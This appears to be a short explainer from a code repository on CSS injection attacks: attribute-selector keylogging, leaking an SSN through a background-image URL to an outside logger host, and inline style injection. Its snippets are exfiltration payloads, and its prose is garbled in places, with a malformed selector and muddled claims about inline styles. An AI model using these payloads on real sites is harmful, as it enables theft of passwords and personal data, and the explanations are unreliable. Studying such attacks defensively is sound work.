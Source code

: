 # CSS vulnerabilities

## The key logger vulnerability  

```css
input[value^="a"] {background: url(logger.php?v=a)}
```

If there is an input on a page for example a password input you can put a logger script in it as the value for a input’s background image which will then collect a large amount of selectors and report some or all of the passwords it has found.   

For example, a value attribute of an input does not change just because a value has been put in place but in frameworks like React.Js it can, so if you were to input a CSS code onto a login page which is run by React.JS like this one line of code then the key logger will most Likely activate.  

## Attribute selectors   
```css
input#ssn[value = "123-45-6789" {background: url(https://secret-site.com/logger.php?ssn=123-45-6789)}
```
If you were to out some Unrecognized CSS that is dangerous for a website which requires authentication just like this line of code and the site shows sensitive information is being displayed such as a social media account profile information where some of the private information is not displayed you can then use attribute selectors to find out what that private information is.  

## The inline-style block  

```html
<style>
    ... drop in some user-generated stuff ...
</style>
```

This is an inline style blocking of code, this can allow an actor to add JavaScript code that can contain a virus, this is one of the most common types of CSS vulnerabilities you can find on a webpage, and this can vary depending on how much CSS code has been implemented.  
